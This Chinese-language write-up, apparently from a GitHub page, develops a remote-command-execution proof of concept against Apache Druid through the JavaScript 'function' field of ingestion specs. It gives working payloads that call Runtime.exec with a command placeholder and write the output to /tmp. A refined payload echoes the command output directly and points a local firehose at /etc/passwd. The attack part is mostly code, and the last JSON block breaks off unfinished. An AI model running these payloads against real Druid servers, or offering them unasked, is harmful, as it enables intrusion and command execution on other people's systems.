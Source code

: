 通过命令执行，把结果使用jackson的包把json格式的结果写入到/tmp下
```java
function(value){var a=new java.io.BufferedWriter(new java.io.FileWriter(\"/tmp/123.json\"));var cmd =java.lang.Runtime.getRuntime().exec(\"{{command}}\");var test = new com.fasterxml.jackson.databind.ObjectMapper();var jsonObj = test.createObjectNode();jsonObj.put(\"time\",\"2015-09-12T00:46:58.771Z\");jsonObj.put(\"test\",new java.util.Scanner(cmd.getInputStream()).useDelimiter(\"\\A\").next());a.write(jsonObj.toString());a.close();
```
通过写文件，然后在利用druid的任意文件读取来获取命令结果

但是这里有个坑，因为想要编写通用新旧版本POC，导致不能使用`inline`,我这里采用了`local`方式,但是读取的文件如果是格式错误的，导致异常退出，流程没有走到命令执行的地方。
这里就有了前置条件

**找到合法的解析文件让他不报错（新版可以直接只用`inline`不报错，无影响)**

这种方式肯定不是我们想要的，继续看代码分析，后来找到了`parse`下也可以执行`function`函数, 然后刚好是在解析时候执行的命令，在异常前执行完毕命令。

```json
{
"dataSchema": {
    "dataSource": "%%DATASOURCE%%",
    "parser": {
        "parseSpec": {
            "format": "javascript",
            "timestampSpec": {},
            "dimensionsSpec": {},
            "function": "function(){ xxxx }}",
            "": {
                "enabled": "true"
            }
        }
    }
}
}
```

#### 直接命令回显
在看parseSpec文档的时候，发现`function`可以直接修改回显内容，`return`的内容为`{key:value}`
改进POC，直接页面输出命令结果
```json
{
      	"type": "index",
      	"spec": {
      		"ioConfig": {
      			"type": "index",
      			"firehose": {
      				"type": "local",
      				"baseDir": "/etc",
      				"filter": "passwd"
      			}
      		},
      		"dataSchema": {
      			"dataSource": "%%DATASOURCE%%",
      			"parser": {
      				"parseSpec": {
      					"format": "javascript",
      					"timestampSpec": {},
      					"dimensionsSpec": {},
      					"function": "function(){var s = new java.util.Scanner(java.lang.Runtime.getRuntime().exec(\"{{command}}\").getInputStream()).useDelimiter(\"\\A\").next();return {timestamp:\"2013-09-01T12:41:27Z\",test: s}}",
      					"": {
      						"enabled": "true"
      					}
      				}
      			}
```